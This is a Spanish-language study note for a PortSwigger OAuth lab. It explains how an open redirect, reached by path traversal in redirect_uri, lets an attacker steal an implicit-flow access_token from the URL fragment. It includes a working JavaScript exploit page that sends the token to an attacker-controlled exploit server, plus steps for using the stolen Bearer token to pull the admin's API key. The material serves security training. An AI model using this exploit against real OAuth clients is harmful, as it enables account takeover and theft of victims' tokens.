

---
aliases:
  - OAuth 004 - Steal token via open redirect
  - implicit fragment exfil
tags:
  - vuln/oauth
  - example
  - portswigger
---

# 004 — Robo de `access_token` por open redirect (implicit + fragment)

> Lab: [Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect) · Practitioner · Teoría → [[vulnerabilities/026-oauth/oauth#B.1 — Fuga de code / access_token (fallos de redirect_uri)|entry point B.1]] · [[vulnerabilities/025-dom-based/dom-based|open redirect]] · [[vulnerabilities/026-oauth/labs/README|labs]]

## Qué muestra
El `redirect_uri` **sí** está validado por dominio, pero el cliente tiene un **open redirect** (`/post/next?path=...`) alcanzable por **path traversal** desde el callback. Es **implicit flow**, así que el `access_token` viaja en el **fragment** (`#`). El atacante rebota el flujo por el open redirect hasta su server; el fragment **se arrastra** en los redirects y una página JS lo lee con `location.hash` y lo exfiltra.

## Diagrama



## Por qué funciona
- La validación del `redirect_uri` es por **prefijo/dominio**: `CLIENT/oauth-callback/../post/next` **empieza** con el dominio permitido, así que pasa; pero el `..` lo lleva al **open redirect**.
- El **fragment** (`#access_token=...`) **no se manda al server** pero **el navegador lo conserva** a través de los 302 mientras el destino no traiga su propio fragment → llega a tu página.
- Tu `/exploit` lee `document.location.hash` y lo exfiltra; con el token pegás al **resource server** (`/me`) y sacás la API key.

## Cómo explotarlo (paso a paso)
1. Encontrá el open redirect del cliente (típico: `GET /post/next?path=URL` que hace `302 Location: URL`).
2. En el exploit server serví `/exploit`:
   ```html
   <script>
   if (!document.location.hash) {
     window.location = 'https://OAUTH-ID.oauth-server.net/auth?client_id=CLIENT_ID'
       + '&redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback/../post/next'
       + '?path=https://EXPLOIT.exploit-server.net/exploit'
       + '&response_type=token&nonce=123&scope=openid%20profile%20email';
   } else {
     window.location = '/?' + document.location.hash.substr(1);
   }
   </script>
   ```
3. **Deliver to victim** → en tu access log: `GET /?access_token=ADMIN_TOKEN`.
4. Usá el token: `GET /me` en el OAuth con `Authorization: Bearer ADMIN_TOKEN` → devuelve la **API key** del admin → submit.

## Verificación
- El `access_token` aparece en el access log; `GET /me` con ese Bearer devuelve datos del admin.

## Detalles que se pasan por alto
- El open redirect **debe estar en el dominio permitido** por el `redirect_uri`; por eso el path traversal (`/oauth-callback/../post/next`).
- Es **implicit** (`response_type=token`): sin JS que lea el `hash` no exfiltrás nada (el server nunca ve el fragment).
- Si no hay open redirect pero sí una página que reemite el fragment por `postMessage`, el camino es el **005 (proxy page)**.
